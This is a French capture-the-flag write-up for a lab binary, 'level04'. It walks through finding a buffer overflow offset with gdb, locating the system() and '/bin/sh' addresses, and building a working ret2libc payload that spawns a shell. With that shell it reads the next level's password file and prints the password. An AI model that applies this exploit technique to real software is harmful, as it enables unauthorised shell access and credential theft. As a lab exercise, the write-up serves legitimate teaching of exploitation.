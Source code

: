 # Level04

```shell
$ ./level04
Give me some shellcode, k
Hello World
child is exiting...

$ python -c 'print("A" * 200)' | ./level04
Give me some shellcode, k
Give me some shellcode, k
Ctrl+C
```

Il y a deux methode pour trouver la bon nombre de `A` a entrer:

```bash
$ gdb level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) set follow-fork-mode child

(gdb) run
Starting program: /home/users/level04/level04
[New process 2245]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2245]
0x41326641 in ?? ()

# go on wiremask and he will give you: Register value 0x41326641 => Offset 156
```

Or

```shell
$ python -c 'print("A" * 155)' | ./level04
Give me some shellcode, k
child is exiting...

$ python -c 'print("A" * 156)' | ./level04
Give me some shellcode, k
Give me some shellcode, k
Ctrl+C
```

On va essayer de faire un ret2libc. Notre argument va ressembler a

```shell
$ python -c 'print("A" * 156 + "AdresseSystem" + "OSEF" + "AdresseBinSH")'
```

allons recuperer ces deux adresses

```shell
$ gdb level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x80486c8

(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

On trouve alors `AdresseSystem = 0xf7e6aed0` et `AdresseBinSH = 0xf7f897ec`, plus qu'a remplacer et essayer

```shell
$ (python -c 'print("A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "OSEF" + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

lien: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
